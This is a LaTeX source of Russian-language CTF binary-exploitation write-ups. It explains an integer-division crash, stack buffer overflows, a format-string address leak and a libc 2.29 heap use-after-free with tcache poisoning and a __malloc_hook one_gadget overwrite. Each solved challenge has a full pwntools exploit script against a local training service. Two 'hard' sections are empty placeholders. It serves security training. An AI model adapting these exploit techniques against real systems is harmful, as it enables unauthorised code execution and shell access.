%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Daily Laboratory Book
% LaTeX Template
% Version 1.0 (4/4/12)
%
% This template has been downloaded from:
% http://www.LaTeXTemplates.com
%
% Original author:
% Frank Kuster (http://www.ctan.org/tex-archive/macros/latex/contrib/labbook/)
%
% Important note:
% This template requires the labbook.cls file to be in the same directory as the
% .tex file. The labbook.cls file provides the necessary structure to create the
% lab book.
%
% The \lipsum[#] commands throughout this template generate dummy text
% to fill the template out. These commands should all be removed when 
% writing lab book content.
%
% HOW TO USE THIS TEMPLATE 
% Each day in the lab consists of three main things:
%
% 1. LABDAY: The first thing to put is the \labday{} command with a date in 
% curly brackets, this will make a new page and put the date in big letters 
% at the top.
%
% 2. EXPERIMENT: Next you need to specify what experiment(s) you are 
% working on with an \experiment{} command with the experiment shorthand 
% in the curly brackets. The experiment shorthand is defined in the 
% 'DEFINITION OF EXPERIMENTS' section below, this means you can 
% say \experiment{pcr} and the actual text written to the PDF will be what 
% you set the 'pcr' experiment to be. If the experiment is a one off, you can 
% just write it in the bracket without creating a shorthand. Note: if you don't 
% want to have an experiment, just leave this out and it won't be printed.
%
% 3. CONTENT: Following the experiment is the content, i.e. what progress 
% you made on the experiment that day.
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%----------------------------------------------------------------------------------------
%	PACKAGES AND OTHER DOCUMENT CONFIGURATIONS
%----------------------------------------------------------------------------------------

\documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} % 'openany' here removes the gap page between days, erase it to restore this gap; 'oneside' can also be added to remove the shift that odd pages have to the right for easier reading

\usepackage[ 
  backref=page,
  pdfpagelabels=true,
  plainpages=false,
  colorlinks=true,
  bookmarks=true,
  pdfview=FitB]{hyperref} % Required for the hyperlinks within the PDF
  
\usepackage{booktabs} % Required for the top and bottom rules in the table
\usepackage{float} % Required for specifying the exact location of a figure or table
\usepackage{graphicx} % Required for including images2
\usepackage{listings} % Used for programs' listings
\usepackage{tcolorbox} % For textboxes
\usepackage{hyperref}

\usepackage[english,russian]{babel}
\usepackage[utf8]{inputenc}
\usepackage[T2A]{fontenc}

\newcommand{\HRule}{\rule{\linewidth}{0.5mm}} % Command to make the lines in the title page
\setlength\parindent{0pt} % Removes all indentation from paragraphs

%----------------------------------------------------------------------------------------
%	DEFINITION OF EXPERIMENTS
%----------------------------------------------------------------------------------------

\newexperiment{easy1}{Crash me}
\newexperiment{easy2}{System health check}
\newexperiment{medium1}{You're a Wizard, Harry}
\newexperiment{medium2}{<Название>}
\newexperiment{hard1}{<Название>}
\newexperiment{hard2}{<Название>}

%---------------------------------------------------------------------------------------

\begin{document}

%----------------------------------------------------------------------------------------
%	TITLE PAGE
%----------------------------------------------------------------------------------------

\frontmatter % Use Roman numerals for page numbers
\title{
\begin{center}
\HRule \\[0.4cm]
{\Huge \bfseries CTF Code \\[0.5cm] \Large Writeups}\\[0.4cm] % Degree
\HRule \\[1.5cm]
\end{center}
}
\author{\Huge Binary analysis \\ \\[2cm]} % Your name and email address
\maketitle

\tableofcontents

\mainmatter % Use Arabic numerals for page numbers

%----------------------------------------------------------------------------------------
%	LAB BOOK CONTENTS
%----------------------------------------------------------------------------------------

% Blank template to use for new days:

%\labday{Day, Date Month Year}

%\experiment{}

%Text

%-----------------------------------------

%\experiment{}

%Text

%----------------------------------------------------------------------------------------

\labday{Easy}

\experiment{easy1}

\textbf{Теги:} ELF 64bit, C, baby\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

Нам дается бинарь и порт для подключения. Толком анализировать его бессмысленно, по ассемблерному листингу понятно, что он принимает на вход два числа $a$ и $b$ типа \verb|int|, после чего проверяет, что $b$ не 0 и вычисляет их частное $\frac{a}{b}$. Собственно говоря, задача на Undefined Behavior (иногда можно встретить аббревиатуру UB) в С/С++. Если в этих языках поделить \verb|INT_MIN| на $-1$, то результат не влезет в тип int и произойдет SIGFPE (Fatal Arithmetic Error). Так как наша задача просто положить бинарь - это идеальный для нас вариант. Напишем сплойт (хотя в данной задаче проще руками, но для того, чтобы райтап выглядел более-менее равномерно будет приведен сплойт):
\begin{lstlisting}[language=Python, caption=Вызываем SIGFPE]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='amd64')

BINARY = './problem'
REMOTE = True
INT_MIN = 0x80000000


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

    r.sendline(str(INT_MIN))
    r.sendline(str(-1))

    r.interactive()


if __name__ == '__main__':
    exploit()
\end{lstlisting}

И получаем флаг:
\begin{figure}[H]
\begin{center}

\includegraphics[width=0.7\linewidth]{files/baby-flag}
\end{center}
\caption{Вот бы всегда так}
\label{fig:baby-flag}
\end{figure}

%-----------------------------------------

\experiment{easy2}

\textbf{Теги:} ELF 32bit, C, Buffer Overflow, baby\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

Нам дается простенький бинарь, спрашивающий пароль. При декомпиляции первое, на что падает взгляд - использование функции \verb|gets()|. От этого буквально несет переполнением буфера. Остается понять, насколько его переполнять. Если взглянуть на пролог функции \verb|remote_system_health_check()|, то становится понятно, что содержимое стека в данном случае выглядит как \verb|ebp + buffer|. Размер буфера тоже виден ниже и равен $0x108$, что в более привычной для нас десятичной системе счисления равняется $264$. Таким образом, пайлоад будет выглядеть как: \verb|password + \x00 + padding + RA|. То есть требуемый пароль, нулевой байт для того, чтобы функция \verb|strcmp()| "правильно" сравнила строки, после чего забивание буфера и \verb|ebp| и перезапись адреса возврата. Остается понять, сколько же нужно забивать. Так как наш пароль выглядит как \verb|sUp3r_S3cr3T_P4s5w0rD| и его длина равна $21$, то из $264$ байт у нас остается $242$ (не забываем про нулевой байт в конце строки). Отлично, буфер забит. Нужно добавить еще $4$ байта для того, чтобы дойти до адреса возврата сквозь \verb|ebp|. И не стоит забывать, что функция \verb|gets()| автоматически добавляет в конец нулевой байт - то есть из получившихся $246$ нужно вычесть $1$ и получить $245$ - длину нашего смещения. Ну и еще стоит вспомнить, что адреса хранятся в little-endian. Таким образом, сплойт будет выглядеть следующим образом:
\begin{lstlisting}[language=Python, caption=Переполнение буфера]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='i386')

BINARY = './system_health_checker'
REMOTE = True


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

	r.recvline()

    padding = "A" * 245
    RA = p64(0x0804928c)

    r.sendline("sUp3r_S3cr3T_P4s5w0rD\x00" + padding + RA)
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

После чего получаем флаг \verb|oren_ctf_baron_samedit!|

%----------------------------------------------------------------------------------------

\labday{Medium}

\experiment{medium1}

\textbf{Теги:} ELF 64bit, C, Buffer Overflow, Format String, baby\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

По своей сути задача является вариацией предыдущей - просто с небольшими изменениями в виде того, что теперь бинарь не позиционно-независимый и адреса меняются через ASLR. Поэтому задача просто посчитать адрес функции перед ее вызовом. И важно помнить, что теперь наш бинарь не 32, а 64 битный, то есть размеры регистров не $4$, а $8$ байт.
Начало остается точно таким же: мы отслыаем пароль и нулевой байт. Опять в прологе видим, что под буфер отведено $256$ байт. То есть суммарно на стеке "ненужного места" $264$ байта - $256$ буффера и $8$ \verb|rbp|. Длина нужного заклинания вместе с нулевым байтом - $13$ символов. То есть нужно забить $251$ байт, после чего можно смело совать адрес нужной функции и радостно получать флаг\footnote{Кстати, пару слов про возможности pwntools. Они как раз применяются в этом сплойте: очень часто достаточно долго считать, сколько же места нужно забить. Для этого в этом фреймворке есть замечательная функция cyclic, которая генерирует строку с помощью \href{https://en.wikipedia.org/wiki/De_Bruijn_sequence}{последовательности де Брёйна}. Таким образом достаточно просто найти буквы, которые после переполнения окажутся в IP и умножать на их вхождение в последовательность, для чего тоже существует отдельная функция.}.

Но как нам добыть нужный адрес? Если внимательно посмотреть, то можно увидеть, что \verb|printf| выводит строку без спецификатора, прям как есть. Это уязвимость форматной строки. Так как прототип \verb|printf|'a выглядит как 

\verb|extern int printf(const char *__restrict __format, ...)|, то можно получать адреса на стеке - \verb|printf| интерпретирует переменную, которую ему дали, как форматную строку, а в качестве, которые нужно в нее подставить будет брать значения стека. Таким образом можно получить адрес возврата из функции \verb|AAAAAAAA|, после чего отнять от этого числа разницу между ее адресом возврата и началом функции WIN и таким образом получить адрес функции WIN, который уже можно перезаписывать на стек и возвращаться по нему.

Окей, мы определились с нашим пайлоадом: заклинание + нулевой байт + мусор + нужный адрес. Но тут возникает подстава - программа падает. Если погуглить (или знать), то можно найти, что функции из libc требуют выравнивания стека. Проблема. Но можно воспользоваться ROP (Return Oriented Programming) - для начала вернуться из WIN-функции и таким образом выравнять стек. То есть, в конечно итоге, пайлоад будет выглядеть как: заклинание + нулевой байт + мусор + адрес возврата из WIN + адрес WIN.

Сплойт будет выглядеть примерно следующим образом:
\begin{lstlisting}[language=Python, caption=Переполнение буфера с форматной строкой]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='amd64')

BINARY = './wizards'
REMOTE = True

WIN_OFFSET = 0x13f
WIN_RET = 0x42


def leak_win_address(remote):
    remote.recvuntil("Enter your witch name:")
    log.info("Sending format string exploit...")
    remote.sendline("%p|" * 42)

    LEAKS = remote.recvuntil("enter your magic spell:").split("|")
    MAIN = int(LEAKS[-5], 16)
    log.info("Leaked MAIN function address: {}".format(hex(MAIN)))

    WIN = MAIN - WIN_OFFSET
    log.info("Leaked WIN function address: {}".format(hex(WIN)))

    return WIN


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

    win_addr = leak_win_address(r)
    win_ret = win_addr + WIN_RET

    payload = "Expelliarmus\x00"
    payload += 'A' * cyclic_find("cnaa")
    payload += p64(win_ret)
    payload += p64(win_addr)

    r.sendline(payload)
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

Таким образом, получаем флаг \verb|oren_ctf_Berners-Lee!|

%-----------------------------------------

\experiment{medium2}

\textbf{Теги:} ELF 64bit, C, gadgets, heap\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

Нам дам исполняемый файл, загрузчик и \verb|libc|. Запустив всё это можно увидеть довольно стандартное меню для pwn-тасков.
\begin{figure}[H]
\begin{center}

\includegraphics[width=1.0\linewidth]{files/mal-menu}
\end{center}
\label{fig:mal-menu}
\end{figure}

У нас есть ряд примитивов для создания каких-то объектов. По логике работы всё выглядит довольно просто. Мы можем создавать списки и добавлять в них элементы (тайтлы). Удалять тайтлы из списка и удалять сами списки. А также просматривать списки и изменять рецензии.

Разбирать все функции и описывать их мы не будем, вместо этого сосредоточим внимание только на важных деталях. Первое на что нам надо обратить внимание это контроль размера создаваемых объектов, точнее его отсутствие. Мы не контролируем размер объектов, которые создаются.
\begin{figure}[H]
\begin{center}

\includegraphics[width=1.0\linewidth]{files/mal-add-anime}
\end{center}
\label{fig:mal-add-anime}
\end{figure}

Как можно заметить при добавлении нового аниме создаётся 3 чанка в динамической памяти (куче). Первый чанк служит объектом, который хранит в себе 2 указателя на имя и рецензию и ещё одно поле для оценки. Как можно заметить у нас есть чанки которые потенциально могут попасть в \verb|fastbin| и \verb|unsorted bin|, но изначально при освобождении они будут попадать в \verb|tcache|, потому что в задаче используется \verb|libc| $2.29$. Отсутствие контроля размера несколько сужает наши возможности, но это не критично.

Следующий момент, на который нам надо обратить внимание это «очистка» или удаления тайтлов и списков.
\begin{figure}[H]
\begin{center}

\includegraphics[width=1.0\linewidth]{files/mal-del-anime}
\end{center}
\label{fig:mal-del-anime}
\end{figure}

Выше представлен код удаления аниме из списка. В целом это код удаления элемента из односвязного списка и это мало что нам даёт, потому что, по сути, мы теряем указатель на этот элемент и получается, что здесь всё безопасно.

Далее посмотрим на код удаления списка.
\begin{figure}[H]
\begin{center}

\includegraphics[width=1.0\linewidth]{files/mal-del-list}
\end{center}
\label{fig:mal-del-list}
\end{figure}

Здесь сразу можно увидеть ошибку, которая заключается в том, что при удалении списка мы не зануляем указатель на сам список и не убираем элементы из односвязного списка. Таким образом удаление списка производит просто освобождение всех объектов, которые в нём хранятся, но просматривать мы его всё ещё можем. С помощью этой ошибки мы можем получить утечку памяти, а также произвести остальную эксплуатацию.

Для начала просто проверим, что это работает: создадим список, добавим в него элемент и удалим список, после чего просмотрим его.
\begin{figure}[H]
\begin{center}

\includegraphics[width=1.0\linewidth]{files/mal-get-libc}
\end{center}
\label{fig:mal-get-libc}
\end{figure}

Имя и отзыв пустые, потому что при просмотре мы пытаемся разыменовать указатель.

Также взглянем на код просмотра списка.
\begin{figure}[H]
\begin{center}

\includegraphics[width=1.0\linewidth]{files/mal-empty-point}
\end{center}
\label{fig:mal-empty-point}
\end{figure}

Теперь попробуем использовать это для получения адреса \verb|libc|. Будем использовать одну из самых простых техник – помещение чанка в unsorted bin и чтение первых $8$ байт. Мы создаём список и заполняем его $8$-ю элементами, после чего освобождаем $7$ элементов и заполняем \verb|tcache|, далее удаляем список и просматриваем список. Одни из объектов описывающих тайтл будет находится в \verb|fastbin| и у него не будет перетёрт указатель на описание тайтла. А чанк с описанием попадёт в \verb|unsorted bin|, потому что в \verb|tcache| нет места, и мы получим утечку \verb|libc|.

Следующим нашим шагом будет произвольная запись. Писать мы будем в место, где лежит \verb|__malloc_hook|. Для произвольной записи мы создаём ещё один список, добавляем в него одну запись и удаляем список. После этого мы получаем имя записи (оно будет выглядеть как адрес внутри кучи) и с помощью функции изменения отзыва переписываем структуру tcache таким образом, что устанавливаем в начале списка адрес на место рядом с \verb|__malloc_hook| и новый выделенный чанк будет расположен там. В новый чанк мы запишем 19 байт паддинга и адрес \verb|one_gadget|-а для получения шелла.

Тут во время написания сплойта жизнь немного усложняется тем, что нам нужны специфичные версии \verb|ld| и \verb|libc|. Поэтому можно пропатчить бинарь, привязав \verb|libc| и \verb|ld| к нему, чтобы все в точности повторяло сервер организаторов:
\begin{verbatim}
patchelf --set-interpreter ld-linux-x86-64.so.2 MAL_linked
patchelf --set-rpath . MAL_linked
\end{verbatim}

После подобных рассуждений достаточно просто написать сплойт:
\begin{lstlisting}[language=Python, caption=Куча кода]
#!/usr/bin/env python3

from pwngun_craft import craft
from pwn import *

REMOTE = True

BINARY = "./MAL_linked"
LIBC = "./libc.so.6"
LD = "./ld-linux-x86-64.so.2"

one_shots = [0xe6b93, 0xe6b96, 0xe6b99, 0x10af39]

libc = ELF(LIBC)
if REMOTE:
    r = remote('127.0.0.1', 17173)
else:
    r = process(BINARY)


def create_list():
    r.sendlineafter(b"> ", b"1")


def del_list(idx):
    r.sendlineafter(b"> ", b"2")
    r.sendlineafter(b": ", str(idx).encode())


def add_anime(idx, title, desc, score):
    r.sendlineafter(b"> ", b"3")
    r.sendlineafter(b": ", str(idx).encode())
    r.sendlineafter(b": ", title)
    r.sendlineafter(b": ", desc)
    r.sendlineafter(b": ", str(score).encode())


def change_review(idx, title, desc):
    r.sendlineafter(b"> ", b"4")
    r.sendlineafter(b": ", str(idx).encode())
    r.sendlineafter(b": ", title)
    r.sendlineafter(b": ", desc)


def del_anime(idx, title):
    r.sendlineafter(b"> ", b"5")
    r.sendlineafter(b": ", str(idx).encode())
    r.sendlineafter(b": ", title)


def view_list(idx):
    r.sendlineafter(b"> ", b"6")
    r.sendlineafter(b": ", str(idx).encode())
    data = r.recvuntil(b"\n+-")[:-3]
    return data


def exploit():
    # Prepare for libc leak
    create_list() # idx 0
    for i in range(8):
        add_anime(0, b"test", b"test", 1)
    for i in range(7):
        del_anime(0, b"test")


    # Leak libc
    del_list(0)
    buf = view_list(0).split(b'\n')[4].split(b": ")[1].ljust(8, b'\x00')
    libc_leak = u64(buf)
    libc_base = libc_leak - 0x1eabe0
    print("[+] Leaked libc: ", hex(libc_base))

    # Leak last entry
    create_list() # idx 1
    add_anime(1, b"list1", b"list1", 2)
    del_list(1)
    buf = view_list(1).split(b'\n')[3].split(b": ")[1]
    print("[+] Leaked enrty: 0x", buf.hex(), sep='')

    # Overwrite tcache struct
    payload = p16(0x0) * 7 + p16(0x2) + p16(0x0) * 7 + p16(0x7)
    payload += p64(0x0) * 19 + p64(libc_base +
    		libc.symbols['__malloc_hook'] - 19)
    change_review(1, buf, payload)
    print("[+] Overwrite tcache successfully")

    # Write one_gadget to __malloc_hook
    create_list() # idx 2
    add_anime(2, b"\x00" * 19 + p64(libc_base + one_shots[3]), 
    		b"kekw", 1337)
    print("[+] Write one_gadget successfully")

    # Invoke shell
    r.sendlineafter(b"> ", b"3")
    r.sendlineafter(b": ", b"2")
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

И получаем флаг \verb|oren_ctf_PetitPotam!|

%----------------------------------------------------------------------------------------

\labday{Hard}

\experiment{hard1}

\textbf{Теги:} <Теги>\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

%-----------------------------------------

\experiment{hard2}

\textbf{Теги:} <Теги>\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

%----------------------------------------------------------------------------------------

\end{document}